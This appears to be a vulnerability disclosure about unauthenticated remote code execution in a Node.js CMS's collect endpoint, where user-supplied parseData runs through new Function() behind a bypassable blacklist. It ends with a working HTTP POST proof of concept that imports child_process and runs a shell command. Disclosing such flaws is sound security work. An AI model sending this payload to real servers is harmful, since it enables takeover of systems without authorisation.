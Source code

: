


# Vulnerability

RCE

# Description

Although the code tries to clean up parseData using `safeExecuteUserFunction`, this blacklisting method is usually unreliable.Blacklist filtering can be bypassed,users can execute any system command without logging in.

# Analysis

The `search` method in `app/modules/cms/controller/collect.js`，the `getArticle` method also has a potential remote code execution (RCE) vulnerability. It gets the parseData from the request body and then uses `new Function()` to execute it.
Although the code tries to clean up parseData using `safeExecuteUserFunction`, this blacklisting method is usually unreliable. An attacker may find ways to bypass filtering and thus execute arbitrary JavaScript code. Since this is executed on the server side, it is an RCE vulnerability.

<img width="710" height="278" alt="image" src="https://github.com/user-attachments/assets/78d43a54-3aba-4a5e-97f0-40eafe8e3ead" />

We reproduce this RCE vulnerability

<img width="927" height="340" alt="image" src="https://github.com/user-attachments/assets/0cce3e93-609a-412a-b1f6-59920b31cebd" />

Then we request the 666.txt written to see the execution result of the command:

<img width="390" height="153" alt="image" src="https://github.com/user-attachments/assets/8da33dc0-e934-4176-9617-1ed5ac90b66f" />

Of course, you can also directly play a calculator to verify:

<img width="1276" height="697" alt="image" src="https://github.com/user-attachments/assets/7b0f64e1-473a-4b32-a652-6838a93a1ccd" />


# POC
```
POST /cms/collect/getArticle HTTP/1.1
Host: localhost:3000
Content-Type: application/json
Content-Length: 286

{
  "taskUrl": "http://localhost:3000/favicon.ico",
  "titleTag": "title",
  "articleTag": "body",
  "parseData": "return (async () => { const { execSync } = await import(/* webpackIgnore: true */ 'child_process'); return execSync('whoami>app/public/666.txt').toString(); })()"
}

```
